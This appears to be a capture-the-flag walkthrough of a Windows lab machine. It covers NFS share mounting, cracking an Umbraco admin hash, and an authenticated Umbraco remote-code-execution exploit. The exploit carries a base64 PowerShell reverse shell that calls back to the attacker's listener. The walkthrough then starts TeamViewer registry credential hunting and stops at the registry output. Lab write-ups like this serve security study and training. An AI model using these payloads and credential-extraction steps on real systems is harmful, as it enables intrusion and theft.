





# Enumeration

## Run Nmap Scan

```bash
nmap -p- -T4 10.129.229.68

"
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-10 15:00 BST
Nmap scan report for 10.129.229.68
Host is up (0.18s latency).
Not shown: 65519 closed tcp ports (conn-refused)
PORT      STATE SERVICE
21/tcp    open  ftp
80/tcp    open  http
111/tcp   open  rpcbind
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
2049/tcp  open  nfs
5985/tcp  open  wsman
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49678/tcp open  unknown
49679/tcp open  unknown
49680/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 634.70 seconds
"
```

> Tip: `cat nmap | grep 'open' | cut -d / -f 1 | tr '\n' ',’` to get all the ports
> 

```bash
nmap -p 21,80,111,135,139,445,2049,5985,47001,49664,49665,49666,49667,49678,49679,49680 -sC -sV 10.129.229.68

"
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-10 15:12 BST
Nmap scan report for 10.129.229.68
Host is up (0.18s latency).

PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
80/tcp    open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Home - Acme Widgets
111/tcp   open  rpcbind       2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
2049/tcp  open  mountd        1-3 (RPC #100005)
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49678/tcp open  msrpc         Microsoft Windows RPC
49679/tcp open  msrpc         Microsoft Windows RPC
49680/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -2s
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-10-10T14:13:26
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 170.44 seconds
"
```

## **View Website**

### Index


### /People


### /Umbraco



## Directory Bruteforcing (Run Gobuster)

```bash
gobuster dir -u http://10.129.229.68/ -w /usr/share/wordlists/dirb/common.txt 

"
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.229.68/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2023/10/10 15:15:17 Starting gobuster in directory enumeration mode
===============================================================
[ERROR] 2023/10/10 15:15:34 [!] Get "http://10.129.229.68/about-us": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
/Blog                 (Status: 200) [Size: 5001]
/blog                 (Status: 200) [Size: 5001]
/contact              (Status: 200) [Size: 7880]
/Contact              (Status: 200) [Size: 7880]
/home                 (Status: 200) [Size: 6703]
/Home                 (Status: 200) [Size: 6703]
/install              (Status: 302) [Size: 126] [--> /umbraco/]
/intranet             (Status: 200) [Size: 3323]               
/master               (Status: 500) [Size: 3420]               
/people               (Status: 200) [Size: 6739]               
/People               (Status: 200) [Size: 6739]               
/person               (Status: 200) [Size: 2741]               
/product              (Status: 500) [Size: 3420]               
/products             (Status: 200) [Size: 5328]               
/Products             (Status: 200) [Size: 5328]               
/umbraco              (Status: 200) [Size: 4040]               
                                                               
===============================================================
2023/10/10 15:17:08 Finished
===============================================================
"
```

## Enumerating FTP (Failed)

```bash
ftp 10.129.229.68

"
Connected to 10.129.229.68.
220 Microsoft FTP Service
Name (10.129.229.68:root): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
"
```

### List directories and files

```bash
ftp> ls

"
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
ftp>
"
```

Nothing is shown in the FTP.

### Check if file upload is permitted

```bash
ftp> put hello.sh

"
local: hello.sh remote: hello.sh
200 PORT command successful.
550 Access is denied.
ftp>
"
```

File upload is not permitted from the anonymous user

## Enumerating SMB (Failed)

```bash
smbmap -H 10.129.229.68

"
[!] Authentication error on 10.129.229.68
"
```

Guest login is not permitted

## Enumerating NFS

### Show which folder is available

```bash
showmount -e 10.129.229.68

"
Export list for 10.129.229.68:
/site_backups (everyone)
"
```

Enumerated NFS protocol using `showmount` , and there was a folder called `/site_backups`

### Mounting the Folder

```bash
mkdir /tmp/nfs
sudo mount -t nfs -o vers=2 10.129.229.68:/site_backups /tmp/nfs -o nolock
```

I’m going to mount NFS folder `/site_backups` to our local folder called `/tmp/nfs`. 

### Viewing the Folder

```bash
# /tmp/nfs
ls

"
App_Browsers  aspnet_client  css           Media    Umbraco_Client
App_Data      bin            default.aspx  scripts  Views
App_Plugins   Config         Global.asax   Umbraco  Web.config
"
```

After mounting, I `cd` into the `/tmp/nfs` which is mounted to `/site_backups`. Since it is only allowed to be viewed by the file owner, I changed my user account to `root` to view it. 

# Exploitation

## Finding Credentials

### Finding credentials from Web.config

```bash
cat Web.config | grep 'connectionString'

`
	<connectionStrings>
		<add name="umbracoDbDSN" connectionString="Data Source=|DataDirectory|\Umbraco.sdf;Flush Interval=1;" providerName="System.Data.SqlServerCe.4.0" />
	</connectionStrings>
				<add name="DefaultSessionProvider" type="System.Web.Providers.DefaultSessionStateProvider, System.Web.Providers, Version=1.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35" connectionStringName="DefaultConnection" />
`
```

`Web.config` is a config file used for IIS. It contains a credential which can be extract by the command `cat Web.config | grep 'conntectionString`.  Here you can see that the credential is referenced through the file called `Umbraco.sdf`

### Searching Umbraco.sdf

```bash
find /tmp/nfs -name Umbraco.sdf

"
/tmp/nfs/App_Data/Umbraco.sdf
"
```

### Searching for Strings in Umbraco.sdf

```bash
strings Umbraco.sdf

`
Administratoradmindefaulten-US
Administratoradmindefaulten-USb22924d5-57de-468e-9df4-0961cf6aa30d
Administratoradminb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}en-USf8512f97-cab1-4a4b-a49f-0a2054c47a1d
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-USfeb1a998-d3bf-406a-b30b-e269d7abdf50
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-US82756c26-4321-4d27-b429-1b5c7c4f882f
smithsmith@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith@htb.localen-US7e39df83-5e64-4b93-9702-ae257a9b9749-a054-27463ae58b8e
ssmithsmith@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith@htb.localen-US7e39df83-5e64-4b93-9702-ae257a9b9749
ssmithssmith@htb.local8+xXICbPe7m5NQ22HfcGlg==RF9OLinww9rd2PmaKUpLteR6vesD2MtFaBKe1zL5SXA={"hashAlgorithm":"HMACSHA256"}ssmith@htb.localen-US3628acfb-a62c-4ab0-93f7-5ee9724c8d32
@{pv
qpkaj
dAc0^A\pW
(1&a$
"q!Q
umbracoDomains
domainDefaultLanguage
umbracoDomains
domainRootStructureID
umbracoDomains
domainName
umbracoDomains
`
```

The file `Umbraco.sdf` was a binary file which contains our credential. Since I just wanted the credentials, I used `strings` .

### Cracking the Hash

[CrackStation - Online Password Hash Cracking - MD5, SHA1, Linux, Rainbow Tables, etc.](https://crackstation.net/)

I used crackstation to decrypt the hash.


```bash
username: admin
password: baconandcheese
```

## Accessing Services with the obtained Credentials

### FTP (Failed)

```bash
ftp 10.129.229.68

"
Connected to 10.129.229.68.
220 Microsoft FTP Service
Name (10.129.229.68:root): admin
331 Password required
Password:
530 User cannot log in.
Login failed.
Remote system type is Windows_NT.
ftp>
ftp> open 10.129.229.68
Connected to 10.129.229.68.
220 Microsoft FTP Service
Name (10.129.229.68:root): admin@htb.local
331 Password required
Password:
530 User cannot log in.
Login failed.
Remote system type is Windows_NT.
ftp>
"
```

### SMB (Failed)

```bash
smbmap -H 10.129.229.68 -u admin -p baconandcheese

"
[!] Authentication error on 10.129.229.68
"

smbmap -H 10.129.229.68 -u admin@htb.local -p baconandcheese

"
[!] Authentication error on 10.129.229.68
"
```

### /Umbraco



We got in!

## Exploiting Umbraco

### Enumerating Service Information



When you click the `?` icon located at the bottom, the popup menu will appear at the left shown above. The version used is `Umbraco 7.12.4`

### Searching for Exploit

```bash
searchsploit umbraco

"
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                      |  Path
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Umbraco CMS - Remote Command Execution (Metasploit)                                                                                 | windows/webapps/19671.rb
Umbraco CMS 7.12.4 - (Authenticated) Remote Code Execution                                                                          | aspx/webapps/46153.py
Umbraco CMS 7.12.4 - Remote Code Execution (Authenticated)                                                                          | aspx/webapps/49488.py
Umbraco CMS 8.9.1 - Directory Traversal                                                                                             | aspx/webapps/50241.py
Umbraco CMS SeoChecker Plugin 1.9.2 - Cross-Site Scripting                                                                          | php/webapps/44988.txt
Umbraco v8.14.1 - 'baseUrl' SSRF                                                                                                    | aspx/webapps/50462.txt
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
"
```

```bash
searchsploit -x 49488

"
  Exploit: Umbraco CMS 7.12.4 - (Authenticated) Remote Code Execution
      URL: https://www.exploit-db.com/exploits/46153
     Path: /usr/share/exploitdb/exploits/aspx/webapps/46153.py
    Codes: N/A
 Verified: False
File Type: Python script, ASCII text executable
"
```

Here I’m going to use `aspx/webapps/49488.py`. I tried the other exploit, but the exploit didn’t work. (`aspx/webapps/46153.py`)

### Generating Reverse Shell

[Online - Reverse Shell Generator](https://www.revshells.com/)

Set your attack machine IP and Port



Generate powershell exploit in Base64  → Goto powershell #3 (base64)



Copy the base64 payload with `-e` 

```csharp
proc.StartInfo.Arguments = "-e <base64 payload>"
```

Place the base64 code with `-e` inside the `proc.StartInfo.Arguments`

```python
payload = '<?xml version="1.0"?><xsl:stylesheet version="1.0" \
xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:msxsl="urn:schemas-microsoft-com:xslt" \
xmlns:csharp_user="http://csharp.mycompany.com/mynamespace">\
<msxsl:script language="C#" implements-prefix="csharp_user">public string xml() \
{ string cmd = ""; System.Diagnostics.Process proc = new System.Diagnostics.Process();\
 proc.StartInfo.FileName = "powershell.exe"; proc.StartInfo.Arguments = "-e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4ANwA0ACIALAA0ADQANAA0ACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA==";\
 proc.StartInfo.UseShellExecute = false; proc.StartInfo.RedirectStandardOutput = true; \
 proc.Start(); string output = proc.StandardOutput.ReadToEnd(); return output; } \
 </msxsl:script><xsl:template match="/"> <xsl:value-of select="csharp_user:xml()"/>\
 </xsl:template> </xsl:stylesheet> ';
```

This is the payload that I used.

### Configuring RHOST and Authentication Credentials

```python
login = "admin@htb.local";
password="baconandcheese";
host = "http://10.129.229.68";
```

### Listen to Reverse Shell and Exploit

```bash
python3 46153.py

"
Start
[]
"
```

```bash
nc -lvnp 4444

"
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.129.229.68.
Ncat: Connection from 10.129.229.68:49961.
whoami
iis apppool\defaultapppool
PS C:\windows\system32\inetsrv>
"
```

# Privilege Escalation

## Using Kernel Exploit (Failed)

### Getting Systeminfo and Saving the file as systeminfo.txt

```powershell
systeminfo

"
Host Name:                 REMOTE
OS Name:                   Microsoft Windows Server 2019 Standard
OS Version:                10.0.17763 N/A Build 17763
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00429-00521-62775-AA801
Original Install Date:     2/19/2020, 4:03:29 PM
System Boot Time:          10/10/2023, 9:57:56 AM
System Manufacturer:       VMware, Inc.
System Model:              VMware7,1
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: Intel64 Family 6 Model 85 Stepping 7 GenuineIntel ~2295 Mhz
                           [02]: Intel64 Family 6 Model 85 Stepping 7 GenuineIntel ~2295 Mhz
BIOS Version:              VMware, Inc. VMW71.00V.21100432.B64.2301110304, 1/11/2023
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume2
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC-05:00) Eastern Time (US & Canada)
Total Physical Memory:     2,047 MB
Available Physical Memory: 850 MB
Virtual Memory: Max Size:  2,431 MB
Virtual Memory: Available: 1,257 MB
Virtual Memory: In Use:    1,174 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              N/A
Hotfix(s):                 4 Hotfix(s) Installed.
                           [01]: KB4534119
                           [02]: KB4516115
                           [03]: KB4523204
                           [04]: KB4464455
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Ethernet0 2
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.129.0.1
                                 IP address(es)
                                 [01]: 10.129.229.68
                                 [02]: fe80::87c:2426:d478:d5a5
                                 [03]: dead:beef::87c:2426:d478:d5a5
                                 [04]: dead:beef::11e
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
"
```

Save the above text as systeminfo.txt (Without the command)

### Install and execute wes-ng

```powershell
pip3 install wesng
wes --update # Update the exploit
wes systeminfo.txt -o out.csv # Input the systeminfo file and output the available exploit in csv file
```

### Search for Privilege Escalation Kernel Exploit

```bash
cat out.csv | grep 'Privilege' | grep 'exploit-db'
"
"
```

No exploits

## Enumerating Services

### Searching for interesting services

```powershell
tasklist

"
Image Name                     PID Session Name        Session#    Mem Usage
========================= ======== ================ =========== ============
System Idle Process              0                            0          8 K
System                           4                            0        136 K
Registry                        88                            0     23,632 K
smss.exe                       292                            0      1,212 K
csrss.exe                      380                            0      5,292 K
wininit.exe                    484                            0      6,872 K
csrss.exe                      492                            1      4,752 K
winlogon.exe                   548                            1     17,568 K
services.exe                   624                            0      8,076 K
lsass.exe                      640                            0     14,652 K
svchost.exe                    740                            0     14,128 K
fontdrvhost.exe                768                            1      4,164 K
fontdrvhost.exe                776                            0      3,952 K
svchost.exe                    852                            0     10,188 K
dwm.exe                        924                            1     39,784 K
svchost.exe                    968                            0     60,844 K
svchost.exe                   1012                            0     17,616 K
svchost.exe                     60                            0     19,684 K
svchost.exe                    280                            0     15,968 K
vm3dservice.exe               1080                            0      6,592 K
svchost.exe                   1104                            0     19,224 K
svchost.exe                   1160                            0     23,308 K
svchost.exe                   1256                            0      8,844 K
svchost.exe                   1480                            0     15,972 K
svchost.exe                   1736                            0      7,352 K
spoolsv.exe                   1316                            0     16,588 K
svchost.exe                   1344                            0     10,792 K
svchost.exe                   1752                            0     34,984 K
svchost.exe                   2052                            0     12,464 K
inetinfo.exe                  2088                            0     15,404 K
TeamViewer_Service.exe        2196                            0     19,996 K
svchost.exe                   2220                            0      7,500 K
svchost.exe                   2228                            0      8,404 K
MsMpEng.exe                   2260                            0    110,692 K
vmtoolsd.exe                  2268                            0     18,956 K
VGAuthService.exe             2276                            0     10,564 K
svchost.exe                   2292                            0     12,456 K
svchost.exe                   2412                            0     12,252 K
nfssvc.exe                    2524                            0      5,432 K
dllhost.exe                   2796                            0     13,516 K
WmiPrvSE.exe                  3244                            0     23,280 K
msdtc.exe                     3432                            0     10,308 K
LogonUI.exe                   3960                            1     47,492 K
SearchIndexer.exe             2328                            0     20,408 K
svchost.exe                   4516                            0     12,856 K
svchost.exe                   4992                            0      7,540 K
w3wp.exe                       840                            0    359,320 K
nfssvc.exe                    1456                            0        112 K
powershell.exe                9068                            0     71,396 K
conhost.exe                   8244                            0     12,280 K
cmd.exe                       7992                            0      4,828 K
powershell.exe                9368                            0     73,392 K
conhost.exe                   9348                            0     12,336 K
winPEASany_ofs.exe            9720                            0     70,564 K
powershell.exe                8380                            0     70,008 K
conhost.exe                   9864                            0     12,260 K
tasklist.exe                  7796                            0      7,588 K
"
```

`TeamViewer_Service.exe` seems interesting!

### Finding Credentials from TeamViewer Registry

```powershell
reg query HKLM\SOFTWARE\WOW6432Node\TeamViewer\Version7

"
HKEY_LOCAL_MACHINE\SOFTWARE\WOW6432Node\TeamViewer\Version7
    StartMenuGroup    REG_SZ    TeamViewer 7
    InstallationDate    REG_SZ    2020-02-20
    InstallationDirectory    REG_SZ    C:\Program Files (x86)\TeamViewer\Version7
    Always_Online    REG_DWORD    0x1
    Security_ActivateDirectIn    REG_DWORD    0x0
    Version    REG_SZ    7.0.43148
    ClientIC    REG_DWORD    0x11f25831
    PK    REG_BINARY    BFAD2AEDB6C89AE0A0FD0501A0C5B9A5C0D957A4CC57C1884C84B6873EA03C069CF06195829821E28DFC2AAD372665339488DD1A8C85CDA8B19D0A5A2958D86476D82CA0F2128395673BA5A39F2B875B060D4D52BE75DB2B6C91EDB28E90DF7F2F3FBE6D95A07488AE934CC01DB8311176AEC7AC367AB4332ABD048DBFC2EF5E9ECC1333FC5F5B9E2A13D4F22E90EE509E5D7AF4935B8538BE4A606AB06FE8CC657930A24A71D1E30AE2188E0E0214C8F58CD2D5B43A52549F0730376DD3AE1DB66D1E0EBB0CF1CB0AA7F133148D1B5459C95A24DDEE43A76623759017F21A1BC8AFCD1F56FD0CABB340C9B99EE3828577371B7ADA9A8F967A32ADF6CF062B00026C66F8061D5CFF89A53EAE510620BC822BC6CC615D4DE093BC0CA8F5785131B75010EE5F9B6C228E650CA89697D07E51DBA40BF6FC3B2F2E30BF6F1C01F1BC2386FA226FFFA2BE25AE33FA16A2699A1124D9133F18B50F4DB6EDA2D23C2B949D6D2995229BC03507A62FCDAD55741B29084BD9B176CFAEDAAA9D48CBAF2C192A0875EC748478E51156CCDD143152125AE7D05177083F406703ED44DCACCD48400DD88A568520930BED69FCD672B15CD3646F8621BBC35391EAADBEDD04758EE8FC887BACE6D8B59F61A5783D884DBE362E2AC6EAC0671B6B5116345043257C537D27A8346530F8B7F5E0EBACE9B840E716197D4A0C3D68CFD2126E8245B01E62B4CE597AA3E2074C8AB1A4583B04DBB13F13EB54E64B850742A8E3E8C2FAC0B9B0CF28D71DD41F67C773A19D7B1A2D0A257A4D42FC6214AB870710D5E841CBAFCD05EF13B372F36BF7601F55D98ED054ED0F321AEBA5F91D390FF0E8E5815E6272BA4ABB3C85CF4A8B07851903F73317C0BC77FA12A194BB75999319222516
    SK    REG_BINARY    F82398387864348BAD0DBB41812782B1C0ABB9DAEEF15BC5C3609B2C5652BED7A9A07EA41B3E7CB583A107D39AFFF5E06DF1A06649C07DF4F65BD89DE84289D0F2CBF6B8E92E7B2901782BE8A039F2903552C98437E47E16F75F99C07750AEED8CFC7CD859AE94EC6233B662526D977FFB95DD5EB32D88A4B8B90EC1F8D118A7C6D28F6B5691EB4F9F6E07B6FE306292377ACE83B14BF815C186B7B74FFF9469CA712C13F221460AC6F3A7C5A89FD7C79FF306CEEBEF6DE06D6301D5FD9AB797D08862B9B7D75B38FB34EF82C77C8ADC378B65D9ED77B42C1F4CB1B11E7E7FB2D78180F40C96C1328970DA0E90CDEF3D4B79E08430E546228C000996D846A8489F61FE07B9A71E7FB3C3F811BB68FDDF829A7C0535BA130F04D9C7C09B621F4F48CD85EA97EF3D79A88257D0283BF2B78C5B3D4BBA4307D2F38D3A4D56A2706EDAB80A7CE20E21099E27481C847B49F8E91E53F83356323DDB09E97F45C6D103CF04693106F63AD8A58C004FC69EF8C506C553149D038191781E539A9E4E830579BCB4AD551385D1C9E4126569DD96AE6F97A81420919EE15CF125C1216C71A2263D1BE468E4B07418DE874F9E801DA2054AD64BE1947BE9580D7F0E3C138EE554A9749C4D0B3725904A95AEBD9DACCB6E0C568BFA25EE5649C31551F268B1F2EC039173B7912D6D58AA47D01D9E1B95E3427836A14F71F26E350B908889A95120195CC4FD68E7140AA8BB20E211D15C0963110878AAB530590EE68BF68B42D8EEEB2AE3B8DEC0558032CFE22D692FF5937E1A02C1250D507BDE0F51A546FE98FCED1E7F9DBA3281F1A298D66359C7571D29B24D1456C8074BA570D4D0BA2C3696A8A9547125FFD10FBF662E597A014E0772948F6C5F9F7D0179656EAC2F0C7F
    LastMACUsed    REG_MULTI_SZ    \000505696076C
    MIDInitiativeGUID    REG_SZ    {514ed376-a4ee-4507-a28b-484604ed0ba0}
    MIDVersion    REG_DWORD    0x1
    ClientID    REG_DWORD    0x6972e4aa
    CUse    REG_DWORD    0x1
    LastUpdateCheck    REG_DWORD    0x64c273d8
    UsageEnvironmentBackup    REG_DWORD    0x1
